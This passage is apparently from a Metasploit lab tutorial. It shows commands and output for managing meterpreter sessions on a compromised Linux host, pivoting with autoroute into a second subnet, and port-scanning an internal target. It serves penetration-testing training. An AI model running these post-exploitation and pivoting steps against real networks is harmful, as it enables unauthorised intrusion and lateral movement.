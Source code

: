 ```bash
#  1        meterpreter x86/linux    www-data     192.63.4.2:4444 -> 192.63.4.3:55022 (192.63.4.3)
```

### Example 2: Multiple Session Management with Network Pivoting
```bash
# Phase 1: Return to active session
msf6 > sessions -i 1
meterpreter > 

# Phase 2: Network discovery and pivoting setup
meterpreter > shell
ip addr  # Discover dual-homed network interfaces

# Phase 3: Background session and add routing
meterpreter > background
msf6 > run autoroute -s 192.180.108.2

# Phase 4: Launch auxiliary scanner in background
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.180.108.3
msf6 auxiliary(scanner/portscan/tcp) > run

# Phase 5: Session management while scanning
msf6 > sessions -l  # Verify session still active
msf6 > sessions -i 1  # Return to meterpreter if needed
```

### Example 3: Session Interaction Control
```bash
# Phase 1: Foreground specific session
msf6 > sessions -i 1
meterpreter > 

# Phase 2: Execute commands and gather info
meterpreter > sysinfo
# Computer     : demo1.ine.local
# OS           : Linux demo1.ine.local 4.15.0-142-generic #146-Ubuntu SMP Tue Apr 13 01:11:19 UTC 2021 x86_64
# Architecture : x64
# BuildTuple   : i486-linux-musl
# Meterpreter  : x86/linux

# Phase 3: Switch to shell mode
meterpreter > shell
Process 801 created.
Channel 0 created.

# Phase 4: Return to meterpreter mode (CTRL+Z or 'exit')
# Press CTRL+Z to background shell and return to meterpreter
meterpreter > 
```
